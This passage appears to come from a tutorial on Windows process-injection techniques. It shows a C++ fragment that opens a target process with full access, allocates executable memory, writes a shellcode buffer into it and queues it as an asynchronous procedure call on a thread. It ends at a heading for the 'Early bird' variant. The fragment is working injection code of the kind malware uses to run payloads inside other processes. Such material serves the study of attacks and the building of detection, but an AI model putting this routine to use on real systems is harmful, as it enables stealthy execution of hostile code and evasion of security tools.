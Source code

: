 ```c++
    } while (Thread32Next(hSnapshot, &te));

    if (threadId == 0) {
        // we failed to find a thread
        return 0;
    }

    // get a handle to the process
    auto hProcess = OpenProcess(
        PROCESS_ALL_ACCESS,
        FALSE,
        pid
    );

    // allocate a region of memory
    auto hMemory = VirtualAllocEx(
        hProcess,
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        hProcess,
        hMemory,
        &shellcode,
        sizeof(shellcode),
        &bytesWritten
    );

    // open handle to target thread
    auto hThread = OpenThread(
        THREAD_ALL_ACCESS,
        FALSE,
        threadId
    );

  	// queue the apc
    QueueUserAPC(
        (PAPCFUNC)hMemory,  // target function
        hThread,            // target thread
        0
    );
}
```

## Early bird
